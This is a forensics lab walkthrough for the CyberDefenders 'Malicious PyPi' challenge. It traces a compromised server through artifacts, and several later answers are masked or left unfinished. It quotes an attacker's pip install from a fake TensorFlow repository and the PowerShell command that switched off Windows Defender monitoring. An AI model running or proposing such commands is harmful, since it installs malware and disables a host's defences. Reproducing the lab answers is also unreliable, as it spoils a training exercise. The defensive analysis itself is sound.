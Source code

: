 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/malicious-pypi/">Malicious PyPi</a>

**Platform:** CyberDefenders

**Scenario:** On a Monday afternoon, Dr. Alex Rivera, a data scientist, observed that the CPU utilization on their main development server was persistently exceeding 90%, coupled with a noticeable decline in network connectivity speed, falling well below standard performance levels. This situation was unusual, as the team had not launched any new operations that could account for the increased CPU demand.

A triage image has been taken from his computer, and it is imperative to swiftly determine the root cause, extent, and potential repercussions of this issue to prevent any adverse effects on the company's activities.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `N/A`

**Tools:** `` 

**Note:** In this walkthrough, CyberDefenders offers a lab environment for us to utilize. This feature is included with the PRO subscription.

## **Preparations** 

![image](https://github.com/user-attachments/assets/bc3c12fb-0680-4ce0-a2e7-a1f1a28f1bac)

  
## **Questions and Answers**

***1. Dr. Alex Rivera recently downloaded an external library that raised suspicions about system security. Can you identify the specific command used for this download?***  
pip install git+https://github.com/a1l4m/TensorFlow.git#egg=TensorFlow

![image](https://github.com/user-attachments/assets/cba54d19-7ad6-458b-ac61-9c525a65b243)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline

***2. During the investigation, you uncover a command that modified the system's security settings, resulting in the deactivation of Windows Defender in a manner that could assist an attacker. What was this command?***  
***-************ -************************* $*******  

C\Windows\System32\winevt\logs

![image](https://github.com/user-attachments/assets/3e62fbb7-9210-4af1-97a9-4811130c0c47)

Set-MpPreference -DisableRealtimeMonitoring $true

![image](https://github.com/user-attachments/assets/ad04b017-3130-47a4-bb75-094e3d70cd75)

![image](https://github.com/user-attachments/assets/783e5676-4100-4411-8395-d032e0d92853)


***3. Based on your timeline analysis, at what date and time did you first observe unauthorized changes to the security settings that led to the disabling of Windows Defender? Provide the exact UTC timestamp.***  
2024-02-26 12:22:17

![image](https://github.com/user-attachments/assets/68b86f56-85df-4549-a7b5-305133788125)

***4. After the security settings were compromised, a new file appeared on the system. What is the md5 hash of this file, indicating its unique identity?***  

C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6>.\MFTECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\C\$MFT" --csv C:\Users\Administrator\Desktop\ --csvf mft.csv

![image](https://github.com/user-attachments/assets/48d0381b-8967-48bb-9fc2-ff587d1f46af)

![image](https://github.com/user-attachments/assets/907f1eef-8c7d-49d5-b560-364de3fbaa20)

![image](https://github.com/user-attachments/assets/8f04dbc2-8f40-4906-b0db-fc112902bbc9)

23AADF3C98745CF293BFF6B1B0980429

 Get-FileHash .\setup.exe -Algorithm MD5
 ![image](https://github.com/user-attachments/assets/cfb1a67f-cd50-4a2e-919c-fcd1fdac8687)

 
![image](https://github.com/user-attachments/assets/22c6bd9b-61d4-4556-97b0-80ef206a515f)


***5. Investigate the origin of the malicious file detected on the server. What was the exact URL from which this file was initially downloaded before it started communicating with external C2 servers?***  
****://*.**.**.***:****/****.***  

***6. The file in the previous questions started communicating with an external C2 server. What port was used for this communication?***  
****  

***7. Attackers often ensure their continued access to a compromised system through persistence mechanisms. When was such a mechanism established on Dr. Rivera's system? Provide the UTC timestamp.***  
YYYY-MM-DD HH:MM:SS  
Answer Format: YYYY-MM-DD HH:MM:SS  

***8. After the attacker completed their intrusion, a specific file was left behind on the host system. Based on the information you've gathered, identify the name of this file, which was created shortly after the attacker established persistence on the system.***  
******.***  

***9. Determine the exact moment the malicious file identified in Question 8 began its operation. When was it first executed? Provide the UTC timestamp.***  
YYYY-MM-DD HH:MM:SS  
Answer Format: YYYY-MM-DD HH:MM:SS  

***10. After identifying the malicious file in Question 8, it is crucial to determine the name of the malware family. This information is vital for correlating the attack with known threats and developing appropriate defenses. What is the malware family name for the malicious file in Question 8?***  
******
